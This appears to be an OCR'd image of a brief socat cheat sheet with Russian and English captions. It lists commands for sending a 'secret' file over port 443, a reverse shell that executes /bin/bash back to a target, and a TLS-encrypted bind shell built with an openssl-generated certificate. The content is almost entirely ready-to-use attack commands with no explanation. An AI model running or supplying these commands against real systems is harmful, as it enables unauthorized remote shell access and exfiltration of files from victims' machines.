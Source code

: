   
sudo socat TCP4-LISTEN:443,fork file:the_secret_file.txt  
socat TCP4:TARGET:443 file:received_secret_file.txt,create  
^Передача файла утилитой socat  
  
socat -d -d TCP-LISTEN:443 STDOUT  
socat TCP4:TARGET:443 EXEC:/bin/bash  
^Reverse shell 2  
  
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 260 -out bind_shell.crt  
cat bind_shell.key bind_shell.crt > bind_shell.pem  
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify-0,fork EXEC:/bin/bash  
socat - OPENSSL:TARGET:443,verify=0  
^Secure Bind shell 2